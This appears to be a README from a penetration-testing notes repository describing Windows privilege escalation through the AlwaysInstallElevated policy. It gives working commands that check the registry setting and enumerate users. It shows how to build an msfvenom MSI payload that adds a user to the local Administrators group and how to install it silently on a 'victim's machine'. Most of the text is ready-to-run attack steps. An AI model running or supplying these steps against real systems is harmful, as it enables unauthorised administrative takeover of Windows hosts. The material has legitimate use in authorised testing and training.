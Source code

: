 # AlwaysInstallElevated: Privilege Escalation

**MSI packages** can be installed with **elevated privileges** for non-admin users.

1. Verify whether the Windows installer has elevated privileges or not

        reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer
        reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer

    “AlwaysInstallElevated” registry with a dword (REG_WORD) value of **0x1** means that the AlwaysInstallElevated policy is enabled.

2. Select a non-admin user

        net user
        net user USERNAME

3. Generate an MSI payload to add local admin privileges for an existing non-admin user account

        msfvenom -p windows/exec CMD='net localgroup administrators USERNAME /add' -f msi > pwn.msi

4. [Transfer the payload](../../windows_post_exploitation/file_transfer_smbserver/README.md) to victim's machine
5. Execute the installer

        msiexec /quiet /qn /i pwn.msi

6. Verify if the selected user was successfully added to Local Administrators group

        net user USERNAME

    You should see the following output:

        ...
        Local Group Memberships      *Administrators
        ...

## References

* https://www.hackingarticles.in/windows-privilege-escalation-alwaysinstallelevated/
* https://www.hackingarticles.in/bypass-application-whitelisting-using-msiexec-exe-multiple-methods/
* https://docs.microsoft.com/en-us/windows/win32/msi/command-line-options